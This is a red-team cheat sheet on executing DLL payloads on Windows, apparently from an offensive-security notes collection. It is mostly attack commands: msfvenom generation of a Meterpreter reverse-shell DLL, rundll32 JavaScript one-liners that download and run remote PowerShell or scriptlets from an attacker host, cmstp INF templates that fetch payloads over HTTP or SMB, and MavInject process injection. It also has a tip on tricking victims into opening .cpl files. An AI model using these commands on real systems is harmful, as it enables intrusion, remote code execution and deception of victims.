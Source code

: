 ```yaml
---
author(s):
  - Userware
tags:
  - initial-access
  - weaponization
  - client-side-attacks
  - living-off-the-land
  - T1085
  - T1191
  - windows
---
```

# DLL Execution

## 01 - Generate Payloads

### 1.1 - `msfvenom`

Generate a DLL payload then execute it with `StartW` entry point.

```
$ msfvenom -p windows/x64/meterpreter/reverse_tcp lhost=<IP> lport=<PORT> -f dll -o payload.dll
```

### 1.2 - Empire

TODO: Fill this info

```
(Empire) > usestager windows/dll
```

## 02 - Execute Payload

> [!TIP] CPL Payloads
> You can actually social engineer the victim to double click the `.cpl` to establish connection.

### `rundll32.exe`

```
C:\> rundll32.exe payload.dll,StartW
```

To execute the **Control Panel Items** (`.cpl`) payload with entry point either `Control_RunDLL` or `Control_RunDLLAsuser`.

```
C:\> rundll32.exe shell32.dll,Control_RunDLL payload.cpl

C:\> rundll32.exe shell32.dll,Control_RunDLLAsuser payload.cpl
```

A custom payload can be compiled using the `.cpl` Windows features.

```
C:\> rundll32.exe payload.dll,Control_RunDLL
```

Execute a JavaScript that runs a PowerShell script that is downloaded from a remote web site.

```
C:\> rundll32.exe javascript:"\..\mshtml,RunHTMLApplication ";document.write();new%20ActiveXObject("WScript.Shell").Run("powershell -nop -exec bypass -c IEX (New-Object Net.WebClient).DownloadString('http[s]://<IP>[:PORT]/payload.ps1')");
```

Execute a JavaScript that runs `calc.exe` and then kills the `rundll32.exe` process that was started.

```
C:\> rundll32.exe javascript:"\..\mshtml,RunHTMLApplication ";document.write();h=new%20ActiveXObject("WScript.Shell").Run("calc.exe", 0, true);try{h.Send();b=h.ResponseText;eval(b);}catch(e){new%20ActiveXObject("WScript.Shell").Run("cmd /c taskkill /f /im rundll32.exe",0,true);}
```

Execute a scriptlet payload from a web server.

```
C:\> rundll32.exe javascript:"..\mshtml,RunHTMLApplication ";document.write();GetObject("script:http[s]://<IP>[:PORT]/payload.sct")"
```

### `regasm.exe`

```
C:\Windows\Microsoft.NET\Framework64\v4.0.30319\regasm.exe
```

Loads the target .DLL file and executes the RegisterClass function.

```
C:\> regasm.exe AllTheThingsx64.dll
```

Loads the target .DLL file and executes the UnRegisterClass function.

```
C:\> regasm.exe /U AllTheThingsx64.dll
```

### `regsvcs.exe`

```
C:\> regsvcs.exe AllTheThingsx64.dll
```

### `regsvr32.exe`

Execute DLL payload.

```
C:\> regsvr32.exe /s payload.dll
```

### `msiexec.exe`

Execute the DLL payload  (calls `DLLRegisterServer`).

```
C:\> msiexec.exe /y "C:\path\to\payload.dll"
```

Unregisters the target DLL.

```
C:\> msiexec.exe /z "C:\path\to\payload.dll"
```

### `odbcconf.exe`

```
C:\> odbcconf.exe /a {regsvr.exe C:\path\to\payload.dll}
```

### `cmstp.exe`

Fileless scriptlet payload template

```
[version]
Signature=$chicago$
AdvancedINF=2.5

[DefaultInstall_SingleUser]
UnRegisterOCXs=UnRegisterOCXSection

[UnRegisterOCXSection]
%11%\scrobj.dll,NI,http[s]://<IP>[:PORT]/payload.sct

[Strings]
AppAct = "SOFTWARE\Microsoft\Connection Manager"
ServiceName="Yay"
ShortSvcName="Yay"
```

DLL dropper payload template.

```
[version]
Signature=$chicago$
AdvancedINF=2.5

[DefaultInstall_SingleUser]
RegisterOCXs=RegisterOCXSection

[RegisterOCXSection]
C:\path\to\payload.dll
\\<IP>\payload.dll

[Strings]
AppAct = "SOFTWARE\Microsoft\Connection Manager"
ServiceName="Pentestlab"
ShortSvcName="Pentestlab"
```

Execute payload.

```
C:\> cmstp.exe /ni /s payload.inf
```

Execute fileless payload.

```
C:\> cmstp.exe /ni /s http[s]://<IP>[:PORT]/payload.inf
```

### `control.exe`

```
C:\> control.exe .\reflective_payload_loader.dll

C:\> control.exe .\reflective_payload_loader.cpl
```

### `pcalua.exe`

```
C:\> pcalua.exe -a .\payload.exe

C:\> pcalua.exe -a \\<attacker_IP>\<share_name>\payload.dll

C:\> pcalua.exe -a .\payload.cpl
```

### `MavInject.exe`

Inject DLL payload in a process ID.

```
C:\> MavInject.exe <pid> /INJECTRUNNING C:\path\to\payload.dll
```

---
## References

### Backlinks

- [[DLL Injection]]

- [[07 - Tactics & Techniques & Procedures (TTPs) Phases/C - Initial Access/0x01 - Weaponization/0xC - Client-Side Attacks/Delivery Methods/Command and Scripting Interpreter/Desktop/Windows/Code Execution/DotNET]]

- [[HTA]]

- [[Scriptlet]]

- [[Advpack]]

- [[Pcalua]]

### LOLBAS

- [LOLBAS: Regasm](https://lolbas-project.github.io/lolbas/Binaries/Regasm/)

- [LOLBAS: Regsvcs](https://lolbas-project.github.io/lolbas/Binaries/Regsvcs/)

- [LOLBAS: Msiexec](https://lolbas-project.github.io/lolbas/Binaries/Msiexec/)

- [LOLBAS: Odbcconf](https://lolbas-project.github.io/lolbas/Binaries/Odbcconf/)

- [LOLBAS: Control](https://lolbas-project.github.io/lolbas/Binaries/Control/)

- [LOLBAS: Mavinject](https://lolbas-project.github.io/lolbas/Binaries/Mavinject/)

- [LOLBAS: Setupapi](https://lolbas-project.github.io/lolbas/Libraries/Setupapi/)

- [LOLBAS: leadvpack](https://lolbas-project.github.io/lolbas/Libraries/Ieadvpack/)

- [LOLBAS: Certoc](https://lolbas-project.github.io/lolbas/Binaries/Certoc)

### Red Team Notes

- [Red Team Notes: Control Panel Item](https://www.ired.team/offensive-security/code-execution/t1196-control-panel-item-code-execution)

- [Red Team Notes: Forcing `iexplore.exe` to Load a Malicious DLL via COM Abuse](https://www.ired.team/offensive-security/code-execution/forcing-iexplore.exe-to-load-a-malicious-dll-via-com-abuse)

### DMCXBlue

- [DMCXBlue: Rundll32](https://dmcxblue.gitbook.io/red-team-notes/execution/untitled)